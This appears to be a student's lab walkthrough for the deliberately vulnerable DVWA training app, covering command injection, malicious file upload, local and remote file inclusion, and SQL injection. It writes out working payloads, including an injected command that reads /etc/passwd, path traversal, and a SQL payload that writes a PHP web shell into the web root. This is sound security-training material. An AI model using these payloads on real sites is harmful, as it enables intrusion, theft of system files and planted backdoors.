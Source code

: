 # Injections

## Prerequisites

- DVWA setup and accessible
- Login as `admin:password`
- From the side navbar, navigate to `DVWA Security` and set security level to `low`

## Command Injection

- From the website, navigate to `Command Injection`.
- In the IP address textfield, type `127.0.0.1 ; cat /etc/passwd`.
- Click the submit button.
- You should see the following

<img src="/screenshots/command_injection.PNG" alt="command_injection_screenshot" />

## Malicious File Upload

- From the website, navigate to `File Upload`.
- Click the `Browse` button.
- Select [file_upload.php](utils/file_upload.php).
- Click the upload button and way for the success message.
- Navigate to `{IP}/hackable/uploads/file_upload.php`.
- If the php script is successfully executed, you should something similar to the following:

<img src="/screenshots/file_upload.PNG" alt="file_upload_screenshot" />

## Local File Inclusion

- From the website, navigate to `File Inclusion`.
- Notice how the end of the URL contains the following parameter: `page=include.php`.
- Replace `include.php` with `../../../../../../proc/version`
- You should see the following:

<img src="/screenshots/local_file_inclusion.PNG" alt="local_file_inclusion_screenshot" />

## Remote File Inclusion

- From the website, navigate to `File Inclusion`.
- Notice how the end of the URL contains the following parameter: `page=include.php`.
- Replace `include.php` with `https://google.com`
- You should see the following:

<img src="/screenshots/remote_file_inclusion.PNG" alt="remote_file_inclusion_screenshot" />

## SQL Injection + backdoor

- POSSIBLE PAYLOAD: `' UNION SELECT "<? system($_REQUEST['cmd']); ?>",2,3,4 INTO OUTFILE "/var/www/html/temp/c.php"#`\

I am getting the following error, but it might be caused by the way I set up the webapp:  `Acceess denied for user 'dvwa'@'localhost' (using password: YES)`
